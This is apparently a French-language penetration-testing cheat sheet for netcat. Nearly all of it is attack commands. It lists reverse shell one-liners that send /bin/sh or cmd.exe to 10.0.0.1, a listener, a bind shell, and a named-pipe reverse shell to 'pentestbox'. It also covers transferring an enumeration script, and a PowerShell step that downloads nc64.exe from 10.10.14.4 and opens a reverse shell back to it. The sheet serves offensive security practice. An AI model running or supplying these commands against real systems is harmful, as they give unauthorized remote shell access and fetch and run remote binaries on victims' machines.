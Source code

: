 ## netcat

## reverseshell
### selon les versions: -c remplace -e
nc 10.0.0.1 1234 -e /bin/sh
nc 10.0.0.1 1234 -e cmd.exe
nc -e /bin/sh 10.0.0.1 1234

# listener:
nc -nvlp 443

## file transfert:
alice:
nc -lnvp 10443 < lse.sh
bob:
nc IP 10443 > lse.sh

# bind shell:
nc -l -p <port> -e /bin/bash

# sans options:
victim$ mknod /tmp/backpipe p 
victim$ /bin/sh 0</tmp/backpipe | nc pentestbox 443 1>/tmp/backpipe

# nc traditional: 
/usr/bin/nc.traditional

# Windows:

powershell -c “iwr http://10.10.14.4:8000/nc64.exe -outfile c:\temp/bouf.exe”
c:\temp\nc64.exe 10.10.14.4 10443 -e powershell

